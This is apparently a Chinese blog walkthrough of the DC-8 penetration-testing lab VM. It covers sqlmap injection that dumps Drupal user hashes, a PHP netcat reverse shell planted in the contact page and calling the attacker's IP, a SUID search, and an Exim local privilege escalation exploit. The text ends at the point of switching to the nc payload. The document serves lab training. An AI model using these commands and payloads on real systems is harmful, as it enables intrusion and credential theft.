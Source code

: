 ```yaml
---
title: DC_8靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_14.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, DC]   # 可以是数组
top: false
---
```


# DC_8靶机渗透测试

## 信息收集

- 首先先扫描靶机位置和开放的端口
- ip： 192.168.1.5 port：22，80
- CMS：Drupal

![image-20210705023132828](http://cdn.mxrblog.cn/image-20210705023132828.png)

- 爆破目录,发现用户登陆界面

````
dirb http://192.168.1.5
````

![image-20210705101230636](http://cdn.mxrblog.cn/image-20210705101230636.png)

- 访问靶机80端口服务

![image-20210705025722800](http://cdn.mxrblog.cn/image-20210705025722800.png)

- 查看用户登录界面

![image-20210705101351710](http://cdn.mxrblog.cn/image-20210705101351710.png)

- 在用户登陆页面尝试一番后发现无果，然后发现点击侧边栏，在url中出现了nid=1的字段，直觉告诉我有sql注入漏洞（不要问我直觉为什么这么准，网友的直觉都是那么准）

![image-20210705101940951](http://cdn.mxrblog.cn/image-20210705101940951.png)

- 使用sqlmap进行自动化注入看看, 发现数据库d7db

```
sqlmap -u "http://192.168.1.5/?nid=1" --risk=3 --level=5  --random-agent --dbs -dbms=mysql
```

![image-20210705103148642](http://cdn.mxrblog.cn/image-20210705103148642.png)

- 查看表

```
sqlmap -u "http://192.168.1.5/?nid=1" --risk=3 --level=5  --random-agent -D d7db -tables
```

![image-20210705103813487](http://cdn.mxrblog.cn/image-20210705103813487.png)

- 查看列

```
sqlmap -u "http://192.168.1.5/?nid=1" --risk=3 --level=5  --random-agent -D d7db -T users -columns
```

![image-20210705104239406](http://cdn.mxrblog.cn/image-20210705104239406.png)

- 查看密码和姓名（pass name）

```
sqlmap -u "http://192.168.1.5/?nid=1" --risk=3 --level=5  --random-agent -D d7db -T users -C name,pass,uid --dump
```

![image-20210705104531950](http://cdn.mxrblog.cn/image-20210705104531950.png)

- 发现用户名和密码的哈希值，有用户名字john，我们想到了密码破解工具john

```
admin:$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z 
john:$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

- 只得到了john的密码

![image-20210705105845856](http://cdn.mxrblog.cn/image-20210705105845856.png)

- ssh尝试登陆发现无果

![image-20210705110043912](http://cdn.mxrblog.cn/image-20210705110043912.png)

- 进入网站后台， 发现contact us页面可以被修改

![image-20210705110705512](http://cdn.mxrblog.cn/image-20210705110705512.png)

- 在该页面中插入php反弹shell

```
<?php system('nc -e /bin/bash 192.168.1.8 4444')?>
```

![image-20210705111406828](http://cdn.mxrblog.cn/image-20210705111406828.png)

- 攻击机器上监听4444号端口，然后进入contact us页面提交数据进行刷新

![image-20210705111957708](http://cdn.mxrblog.cn/image-20210705111957708.png)

![image-20210705112012648](http://cdn.mxrblog.cn/image-20210705112012648.png)

- 获得交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### 提权

使用命令查看是否有suid的提权的命令

> find / -user root -perm -4000 -print 2>/dev/null

![image-20210705112704121](http://cdn.mxrblog.cn/image-20210705112704121.png)

- 查看exim4版本，发现是4.89

![image-20210705113040929](http://cdn.mxrblog.cn/image-20210705113040929.png)

- 使用searchsploit exim对其进行漏洞检索

![image-20210705120455962](http://cdn.mxrblog.cn/image-20210705120455962.png)

- 使用漏洞文件Exim 4.87 - 4.91 - Local Privilege Escalation对靶机进行提权

![image-20210705120717156](http://cdn.mxrblog.cn/image-20210705120717156.png)

- 将文件传到靶机上

![image-20210705121915838](http://cdn.mxrblog.cn/image-20210705121915838.png)

![image-20210705121929986](http://cdn.mxrblog.cn/image-20210705121929986.png)

- 失败了

  原因是：shell.sh文件的格式为dos格式。linux只能执行格式为unix格式的脚本。

  使用set ff=unix : 告诉 vim 编辑器，使用unix换行符，不然会无法执行脚本。

  所以修改一下攻击机目录下的shell脚本，在脚本最后加上 :set ff=unix（命令行模式添加）

  然后在靶机中重新下载脚本，赋予权限，执行脚本

![image-20210705123615440](http://cdn.mxrblog.cn/image-20210705123615440.png)

- 发现还不是root权限，再看一下漏洞文件

![image-20210705123828233](http://cdn.mxrblog.cn/image-20210705123828233.png)

- 用法说明中提到了我们刚才使用的是默认配置，我们应该切换成nc载荷

![image-20210705124342006](http://cdn.mxrblog.cn/image-20210705124342006.png)

![image-20210705124352704](http://cdn.mxrblog.cn/image-20210705124352704.png)


